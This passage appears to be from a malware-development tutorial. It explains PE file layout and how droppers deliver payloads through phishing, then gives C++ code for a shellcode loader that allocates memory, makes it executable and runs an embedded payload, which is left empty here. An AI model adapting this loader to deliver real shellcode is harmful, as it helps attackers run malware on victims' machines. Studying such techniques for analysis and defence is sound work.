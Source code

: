 While this may appear overwhelming at first, we can simplify it for the purposes of understanding with this [link](https://github.com/corkami/pics/blob/master/binary/pe101/pe101.png).

As you see, there are lots of headers, structures and section tables, and it may seem overwelming when we look at it initially, but for understanding purposes we can simplify this. In a nutshell, PE file can be considered as a book. A book generally has two parts to it, "data" which contains authors text / content and "metadata" which includes information like title, author, publisher, data, ToC, etc.


## Payload Storage
The payloads are often stored in droppers. A droppers are special programs which delivers paylaod to the target machine. A simple example would be that of phishing attack, the user received a malicious document which contains the payload or the code that would get executed when the user opens the document. So, main function of a dropper would be to deliver the payload to the machine to be executed.

But where to store the payloads from the dropper ? There are three locations:
- text (.text)
- data (.data)
- resources (.rsrc)


### Location - `.text`
The .text section of a program is a portion of memory that is used to store the executable code of the program. The .text section is typically read-only and cannot be modified at runtime. An example is below:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// Assign payload
	unsigned char payload[] = { } // shell code.
	unsigned int payload_len = sizeof(payload);
	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	RtlMoveMemory(exec_mem, payload, payload_len);
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

